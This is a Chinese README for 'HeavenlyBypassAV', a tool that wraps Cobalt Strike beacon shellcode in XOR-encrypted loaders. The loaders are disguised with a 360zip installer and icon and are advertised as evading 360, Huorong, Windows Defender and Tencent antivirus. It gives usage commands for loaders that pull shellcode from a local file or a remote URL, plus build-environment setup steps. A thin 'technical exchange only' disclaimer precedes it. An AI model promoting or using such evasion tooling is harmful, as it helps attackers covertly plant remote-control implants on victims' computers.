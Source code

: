 # 更新日志

## 3.0（重大更新）
2024.11.20更新，去除之前版本的VS2019配置，不需要配置。更换GCC编译，下载项目可直接生成免杀马，新增模块化选择生成操作。

本地分离马子使用：马子.exe code.bin  //code.bin可以改成任意格式

网络分离马子使用：马子.exe url链接 

示例：马子.exe http://www.baidu.com/1.txt

![QQ截图20240531145849](新建文件夹/20241120150642.png)

## 2.0
2024.06.20更新，解决生成马子免杀问题。


# HeavenlyBypassAV免杀工具

免责声明：仅用于技术交流，请勿用于非法用途。

Heavenly.exe是生成生成免杀加载器主进程，报毒正常，不含恶意代码。为保证免杀性，不公开源码，后续会更新

# 环境依赖设置

## 安装VS2019

双击运行下图程序安装VS2019。

![QQ截图20240531145849](新建文件夹/QQ截图20240531145849.png)

下载C++桌面开发即可。

![QQ截图20240531145849](新建文件夹/QQ截图20240531150105.png)

![QQ截图20240531145849](新建文件夹/QQ截图20240531150118.png)

下图让你启动证明安装完成。

![QQ截图20240531151602](新建文件夹/QQ截图20240531151602.png)

## 0x1运行Bat脚本一键设置环境变量

如不是默认安装路径修改Bat脚本标红选框为本机VS2019的安装目录即可。

```
默认安装路径：C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
```

![QQ截图20240301095927](新建文件夹/1.png)

## 0x2手动设置环境变量

[点击下载 (aka.ms)](https://aka.ms/vs/17/release/vs_BuildTools.exe)

[Visual Studio 2019 配置 MSVC 环境变量，使用命令行编译。_vs2019 命令行编译-CSDN博客](https://blog.csdn.net/a517858177/article/details/114525735)

### Path系统变量

注：该环境变量的作用是为了找到MSVC编译工具，MSVC编译工具自行安装。

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin
D:\VS2019\VC\Tools\MSVC\14.29.30133\bin\Hostx64\x64
```

![QQ截图20240301095927](新建文件夹/QQ截图20240301095927.png)

![微信截图_20240220160436](新建文件夹/微信截图_20240220160436.png)

### INCLUDE系统变量

注：路径：C:\Program Files (x86)\Windows Kits\10\Include\是安装Visual Studio 自带路径

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\include
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\shared
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\ucrt
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\um
C:\Program Files (x86)\Windows Kits\10\Include\10.0.19041.0\winrt
```

![QQ截图20240301104557](新建文件夹/QQ截图20240301104557.png)

![QQ截图20240301104719](新建文件夹/QQ截图20240301104719.png)

### LIB系统变量(X64)

```
D:\VS2019\VC\Tools\MSVC\14.29.30133\lib\x64
D:\VS2019\VC\Tools\MSVC\14.29.30133\atlmfc\lib\x64
D:\VS2019\VC\Auxiliary\VS\lib\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\ucrt\x64
C:\Program Files (x86)\Windows Kits\10\lib\10.0.19041.0\um\x64
C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64
```

![微信截图_20240220160317](新建文件夹/微信截图_20240220160317.png)

# 使用方式

只要把CS生成的beacon.bin文件放在和Heavenly.exe同一目录即可，然后可以双击运行exe，等待一会自动化生成。仅支持64位shellcode，默认采用xor加密，也可以使用命令行生成设置加密方法，暂支持xor和winxor两种加密方式，最后生成的文件是exe后缀。

**Tools目录**

tools目录为运行需要的依赖工具，其中favicon.ico和360zip_setup.exe可以替换，但替换后的文件名必须一样为favicon.ico和360zip_setup.exe。

```
Heavenly.exe 加密方法
```

![QQ截图20240301110037](新建文件夹/2.png)

## 免杀效果

**支持bypass 360、火绒、Windows Defender、腾讯电脑管家等，一键免杀上线CS**

![QQ截图20240301110037](新建文件夹/3.png)

![QQ截图20240301110134](新建文件夹/QQ截图20240301110134.png)

![微信截图_20240301112926](新建文件夹/微信截图_20240301112926.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301113311.png)

![微信截图_20240528214743](新建文件夹/微信截图_20240528214743.png)

![微信截图_20240301113311](新建文件夹/微信截图_20240301115227.png)

